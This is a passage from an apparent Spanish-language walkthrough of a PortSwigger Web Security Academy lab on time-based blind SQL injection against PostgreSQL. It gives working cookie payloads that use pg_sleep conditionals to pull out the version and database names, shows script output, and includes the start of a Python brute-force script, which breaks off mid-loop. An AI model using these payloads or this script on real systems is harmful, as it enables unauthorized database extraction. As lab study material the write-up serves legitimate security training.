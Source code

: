 ```

if __name__ == '__main__':
    makeRequest()
```

Vemos que nos encontramos ante una base de datos `PostgreSQL`

```
# python sqli_time_based.py
[┐] Fuerza bruta: C5PhDxyLUgYK5wqP'||case when (substr(version(),134,1)='t') then pg_sleep(2) else pg_sleep(0) end-- -
[|] Output: PostgreSQL+12.20+(Ubuntu+12.20-0ubuntu0.20.04.1)+on+x86_64-pc-linux-gnu,+compiled+by+gcc+(Ubuntu+9.4.0-1ubuntu1~20.04.2)+9.4.0,+64-bit
```

Podemos usar este `payload` para `obtener` la `longitud` de `todas` las `bases` de `datos`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(datname,', ')+from+pg_database))>1)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

La `longitud` es de `44 caracteres`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length((select+string_agg(datname,', ')+from+pg_database))=44)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

Con este otro `payload` vamos a poder `bruteforcear` el `nombre` de las `bases` de `datos`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(substr((select+string_agg(datname,', ')+from+pg_database),1,1)='a')+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

Vamos a usar este `script` en `python` para `iterar` sobre el `payload anterior`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 45):
            for character in characters:
```